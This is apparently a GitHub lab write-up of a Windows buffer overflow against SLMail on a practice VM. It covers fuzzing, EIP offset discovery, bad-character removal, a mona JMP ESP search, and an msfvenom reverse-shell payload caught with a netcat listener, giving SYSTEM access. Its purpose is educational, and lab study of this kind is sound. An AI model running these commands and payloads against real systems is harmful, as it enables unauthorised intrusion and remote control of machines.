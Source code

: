 # Windows Buffer Overflow

## Objective:
This project is centered on understanding and executing a Windows buffer overflow. By targeting a specific Windows virtual machine, the project aimed to shed light on the intricacies of buffer overflow vulnerabilities in a Windows environment, emphasizing the steps and tools necessary to exploit such flaws. The key objectives of the project are detailed below:
- **Manual Buffer Overflow:** Engaging in a step-by-step process to perform a buffer overflow against a Windows target, understanding the specific conditions and elements that lead to successful exploitation.
- **Immunity Debugger Integration:** Leveraging the Immunity Debugger to trace and understand the buffer overflow process in real time. This involved attaching specific processes to the debugger and observing program behavior during exploitation attempts.
- **Character Testing and EIP Control:** Using a fuzzer script to determine the exact point of EIP overwrite, followed by a systematic approach to identifying and removing bad characters to ensure the crafted payload's effectiveness.
- **Payload Crafting and Exploitation:** Utilizing MSFvenom to generate a specific payload, followed by setting breakpoints and adjusting scripts to gain control over the program's execution. Successfully exploiting the vulnerability led to obtaining a reverse shell on the target machine.

## Walkthrough:
- Initialized the BOF machine, accessed the command prompt as an administrator, and ran “slmgr /rearm” and “ipconfig” to determine the machine's IP address as “10.0.2.10”.

<p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Windows%20Buffer%20Overflow/Assets/BOF1.png" alt="">
</p>


- Installed “12f1ab027e5374587e7e998c00682c5d-SLMail55_4433.exe” on the Windows VM, rebooted it, and created a desktop shortcut for “SLmail.cpl”.

<p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Windows%20Buffer%20Overflow/Assets/BOF2.png" alt="">
</p>


- Opened both “SLmail.cpl” & “Immunity debugger” with administrative rights.

<p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Windows%20Buffer%20Overflow/Assets/BOF3.png" alt="">
</p>


- In “Immunity debugger”, attached the “SLmail.exe” file and ensured it's actively running.

<p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Windows%20Buffer%20Overflow/Assets/BOF4-1.png" alt="">
</p>
<p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Windows%20Buffer%20Overflow/Assets/BOF4-2.png" alt="">
</p>

- On my Kali machine, downloaded the fuzzer script labeled “fuzzerScript.py” and stored it in a “BOF” folder on my desktop.

<p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Windows%20Buffer%20Overflow/Assets/BOF5.png" alt="">
</p>


- In the same folder, created and edited a file named “fuzzy.py”. Line 13 requires the target IP address and port number.

<p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Windows%20Buffer%20Overflow/Assets/BOF6.png" alt="">
</p>


- Conducted an nmap scan on the target VM to confirm open ports and noted the active “pop3” protocol.

<p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Windows%20Buffer%20Overflow/Assets/BOF7.png" alt="">
</p>


- Updated “fuzzy.py” with the target IP address and port, then saved changes.

<p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Windows%20Buffer%20Overflow/Assets/BOF8.png" alt="">
</p>


- Navigated to the BOF directory and executed the “fuzzy.py” script using the “python2 fuzzy.py” command.

<p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Windows%20Buffer%20Overflow/Assets/BOF9.png" alt="">
</p>


- Observed the EIP update to “41414141” in Immunity debugger.

<p align="center">
  <img src="" alt="">
</p>


- Generated an MSF pattern of 3000 bytes using the “msf-pattern_create -l 3000” command to pinpoint control flow locations.

<p align="center">
  <img src="" alt="">
</p>


- Updated the “fuzzy.py” script's buffer with the generated MSF pattern and removed unnecessary loops.

<p align="center">
  <img src="" alt="">
</p>


- Reset SLmail.cpl and the Immunity debugger, re-executed the “fuzzy.py” script, and noted the updated EIP value in Immunity debugger.

<p align="center">
  <img src="" alt="">
</p>


- Determined the exact memory offset using the “msf-pattern_offset -l 3000 -q 39694438” command.

<p align="center">
  <img src="" alt="">
</p>


- Validated the offset by adjusting the buffer in “fuzzy.py” and observing the Immunity debugger's EIP value.

<p align="center">
  <img src="" alt="">
</p>


- Incorporated a list of potential bad characters into the “fuzzy.py” buffer to refine the exploit.

<p align="center">
  <img src="" alt="">
</p>


- Re-executed the adjusted “fuzzy.py” script and followed the ESP in dump within Immunity debugger to identify and remove any bad characters.

<p align="center">
  <img src="" alt="">
</p>


- Identified certain characters as "bad" and removed them from the "fuzzy.py" buffer.

<p align="center">
  <img src="" alt="">
</p>


- Re-executed the "fuzzy.py" script with the refined buffer and monitored the outcome in Immunity debugger.

<p align="center">
  <img src="" alt="">
</p>


- Searched for mona modules using the “!mona modules” command and identified a suitable dll with “!mona find -s "\xff\xe4" -m SLMFC.DLL”.

<p align="center">
  <img src="" alt="">
</p>


- Crafted a shell code using the “msfvenom -p windows/shell_reverse_tcp LPORT=4444 LHOST=10.0.2.6 -f c -b "\x00\x0a\x0d"” command.

<p align="center">
  <img src="" alt="">
</p>


- Integrated the shell code into “fuzzy.py” and adjusted the buffer accordingly.

<p align="center">
  <img src="" alt="">
</p>


- Established a netcat listener on the Kali machine using “nc -lvp 4444”.

<p align="center">
  <img src="" alt="">
</p>


- Restarted SLmail, ran the “fuzzy.py” script, and achieved system access with highest-level permissions as confirmed by the “whoami” command.

<p align="center">
  <img src="" alt="">
</p>

